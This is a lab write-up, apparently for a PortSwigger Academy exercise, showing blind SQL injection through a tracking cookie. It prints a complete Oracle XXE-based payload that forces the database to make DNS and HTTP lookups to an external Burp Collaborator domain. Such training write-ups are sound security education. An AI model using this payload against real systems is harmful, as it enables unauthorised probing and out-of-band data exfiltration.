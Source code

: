 # Blind SQL injection with out-of-band interaction

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band), you'll learn: Blind SQL injection with out-of-band interaction! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to cause a DNS lookup to Burp Collaborator.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-15/images/Pasted%20image%2020230301120135.png)

**Cookies:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-15/images/Pasted%20image%2020230301120205.png)

When we go to `/`, it'll set a new cookie called `TrackingId`.

This looks like a tracking cookie for analytics.

The SQL query may looks like this:

```sql
SELECT TrackingId FROM tracking WHERE TrackingId = '<our_cookie_value>'
```

**That being said, we can try to perform SQL injection.**

**To do so, I'll try to trigger an SQL query error:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-15/images/Pasted%20image%2020230301120405.png)

However, it seems like we don't recieve any response when we modified the tracking cookie.

Maybe carries out the SQL query **asynchronously**?

The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. The query is still vulnerable to SQL injection, however none of the techniques described so far will work: the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time. But more powerfully, data can be exfiltrated directly within the network interaction itself.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). This is because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.

The easiest and most reliable way to use out-of-band techniques is using [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator). This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Support for Burp Collaborator is built in to [Burp Suite Professional](https://portswigger.net/burp/pro) with no configuration required.

### Blind SQL injection with DNS lookup

**In the PortSwigger's [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), there's a DNS lookup payloads:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-15/images/Pasted%20image%2020230301120657.png)

Since we don't know which DBMS (Database Management System) is using, we need to try them all one by one.

**First, go to Burp Suite's Collaborator and click "Copy to clipboard":**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-15/images/Pasted%20image%2020230301120850.png)

**Then, we'll try Oracle XXE vulnerability to trigger a DNS lookup:**
```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "https://sqmxgqkqk0lopbi04l88x96v2m8dw4kt.oastify.com/"> %remote;]>'),'/l') FROM dual
```

**Payload:**
```sql
1G73QrMQUaCdamOl' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://sqmxgqkqk0lopbi04l88x96v2m8dw4kt.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

**The SQL query may become:**
```sql
SELECT TrackingId FROM tracking WHERE TrackingId = '1G73QrMQUaCdamOl' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://sqmxgqkqk0lopbi04l88x96v2m8dw4kt.oastify.com/"> %remote;]>'),'/l') FROM dual--'
```

Let's send the payload!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-15/images/Pasted%20image%2020230301124253.png)

> Note: The payload needs to be URL encoded.

**Burp Suite's Collaborator:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-15/images/Pasted%20image%2020230301124332.png)

We've recieved 4 DNS lookups! Which means the `TrackingId` cookie is vulnerable to out-of-band SQL injection!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-15/images/Pasted%20image%2020230301124416.png)

# What we've learned:

1. Blind SQL injection with out-of-band interaction